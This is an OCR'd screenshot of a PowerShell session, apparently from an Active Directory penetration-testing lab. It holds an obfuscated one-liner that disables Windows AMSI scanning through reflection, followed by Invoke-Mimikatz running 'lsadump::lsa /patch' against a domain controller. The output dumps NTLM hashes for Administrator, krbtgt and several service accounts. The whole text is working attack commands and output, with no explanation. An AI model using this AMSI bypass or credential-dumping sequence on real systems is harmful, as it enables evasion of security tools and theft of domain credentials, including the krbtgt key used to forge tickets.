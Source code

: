 PS C:\ad> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BL
E (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'a
ge'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'ai
le') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
PS C:\ad> . .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : dcorp / S-1-5-21-1874506631-3219952063-538504511

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 00000455 (1109)
User : ciadmin
LM   :
NTLM : e08253add90dccf1a208523d02998c3d

RID  : 00000458 (1112)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 00000459 (1113)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f
